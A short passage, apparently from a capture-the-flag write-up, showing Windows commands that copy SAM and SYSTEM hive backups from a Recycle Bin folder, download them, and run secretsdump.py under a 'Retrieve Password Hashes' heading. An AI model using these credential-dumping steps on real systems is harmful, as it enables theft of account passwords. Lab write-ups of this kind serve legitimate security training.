 `cd 'C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001'`

![image]( /assets/img/owl/9.PNG)

`mkdir c:\tmp`

`copy sam.bak c:\tmp`

`copy system.bak c:\tmp`

`download c:\tmp\sam.bak`

`download c:\tmp\system.bak`

![image]( /assets/img/owl/10.PNG)


## Retrieve Password Hashes

`secretsdump.py`

![image]( /assets/img/owl/11.PNG)
